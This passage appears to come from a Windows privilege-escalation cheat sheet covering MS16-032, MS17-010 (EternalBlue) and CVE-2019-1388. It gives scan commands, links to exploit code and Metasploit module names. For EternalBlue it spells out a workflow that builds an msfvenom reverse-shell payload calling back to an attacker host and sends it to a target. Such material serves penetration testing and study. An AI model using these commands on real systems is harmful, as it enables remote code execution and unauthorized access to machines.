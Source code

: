 Check if the patch is installed : `wmic qfe list | findstr "3139914"`

```
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

### MS17-010 (Eternal Blue)

Check the vulnerability with the following nmap script or netexec: `netexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010`.

```
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

If you can't use Metasploit and only want a reverse shell.

```
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Requirement: - Windows 7 - Windows 10 LTSC 10240

Failing on : - LTSC 2019 - 1709 - 1803

Detailed information about the vulnerability : https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege

## References
